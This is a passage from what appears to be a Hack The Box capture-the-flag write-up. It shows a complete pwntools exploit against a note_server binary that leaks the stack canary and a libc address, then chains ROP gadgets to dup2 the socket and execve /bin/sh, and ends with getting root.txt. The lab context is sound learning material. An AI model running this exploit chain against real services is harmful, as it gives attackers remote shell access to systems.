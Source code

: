 ```python
    print("\nleaks:")
    print("rbp = ", hex(rbp))
    print("canary = ", hex(canary))
    print("rip = ", hex(rip))
    io.close()
    return (rbp, canary, rip)

def stage2(rbp, canary, rip):
    # leaking libc
    base_address = rip - 0xf54 # return address - offset (objdump -D -Mintel note_server)
    elf = ELF("./note_server", checksec=False)
    elf.address = base_address
    rop = ROP(elf)
    rop.write(fd, elf.got["write"])
    io = remote(host, port)
    do_rop(io, canary, rbp, rop)
    leak = io.recv(8)         
    libc_write = u64(leak)
    print("\nlibc leak: " + hex(libc_write))
    io.close()
    return libc_write

def stage3(canary, rbp, libc_write_leak):
    elf_libc = ELF("./libc6_2.27-3ubuntu1_amd64.so", checksec=False)
    elf_libc.address = libc_write_leak - elf_libc.symbols['write']
    rop_libc = ROP(elf_libc)
    rop_libc.dup2(fd, 0)
    rop_libc.dup2(fd, 1)
    rop_libc.execve(next(elf_libc.search(b"/bin/sh\x00")), 0, 0)

    io = remote(host, port)
    do_rop(io, canary, rbp, rop_libc)

    io.interactive()

(rbp, canary, rip) = stage1()
libc_write_leak = stage2(rbp, canary, rip)
stage3(canary, rbp, libc_write_leak)
```

### Getting `root.txt`

Let's give it a shot.

{% include image.html image_alt="a81c557c.png" image_src="/d6c24de1-704b-4907-af66-242191337928/a81c557c.png" %}

Sweet.

{% include image.html image_alt="7398b6c9.png" image_src="/d6c24de1-704b-4907-af66-242191337928/7398b6c9.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/261
[2]: https://www.hackthebox.eu/home/users/profile/19014
[3]: https://www.hackthebox.eu/
